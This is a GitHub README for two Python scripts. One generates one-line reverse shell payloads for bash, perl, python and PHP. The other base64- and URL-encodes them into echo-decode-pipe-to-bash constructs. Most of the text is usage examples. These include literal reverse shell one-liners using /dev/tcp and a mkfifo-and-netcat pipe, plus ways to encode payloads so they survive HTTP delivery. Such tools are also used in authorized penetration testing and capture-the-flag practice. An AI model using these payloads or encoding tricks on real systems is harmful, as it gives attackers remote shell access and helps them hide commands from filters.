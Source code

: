 # reverse_shells_tools
Scripts for generating reverse shells based mostly on PayloadAllTheThings.

Using one script you can generate one-line reverse shell payloads.

Using the other script you can base64 encode the reverse shell payload when appropiate. This encoding takes into account bad chars for supporting channels as http (url friendly base64 encoded payloads).

I normally use the one-liner to pipe the result into the encoder when appropiate.

The tools are **2 scripts**:
- **rs_oneliner.py**: Mostly one-liner reverse shell generator, based on (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)[PayloadsAllTheThings]
- **rs_b64encode.py**: Use it in convination with **rs_oneliner.py** when appropiate payloads are used (payloads normally to be executed in a bash context). Using the **--echo** It can help you constructing an *echo <base64_encoded_payload> | base64 -d | bash* construct. And with **--echo** and **--url** it will use **url encode** the payload too.

## How to use

Minimal execution needs:

```bash
git clone https://github.com/arale61/reverse_shells_tools.git
cd reverse_shells_tools
python ./rs_oneliner.py -h
python ./rs_b64encode.py -h
```

How **I prefer to use it**:
- I have my own **local bin path** where **these scripts are copied** and **set as executables**:
```
~/.local/bin/rs_oneliner.py
~/.local/bin/rs_b64encode.py
```
- This **local bin path is added in my PATH** environment variable in my .zshrc or .bashrc:
```
export PATH=$PATH:$HOME/.local/bin
```
- Then use them as any other executable available for you.

## Examples:


1. Simple bash tcp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash
```


2. Simple bash udp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash --udp
```


3. Simple perl tcp reverse shell for windows:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl --win
```


4. Pipe into rs_b64encode.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py
```


5. Pipe into rs_b64encode.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo
```


6. Pipe into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo --url
```


7. Simple safe base64 encode:
```bash
./rs_b64encode.py -p 'bash -i >& /dev/tcp/127.0.0.1/6161 0>&10'
```


8. Simple safe base64 encode and use echo decode construct:
```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' | ./rs_b64encode.py --echo
#or
./rs_b64encode.py -p 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' --echo
```


9. Pipe with rs_oneliner.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --python | ./rs_b64encode.py
```


10. Pipe with rs_oneliner.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl | ./rs_b64encode.py --echo
```


11. Pipe into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --phpsystem | ./rs_b64encode.py --echo --url
```

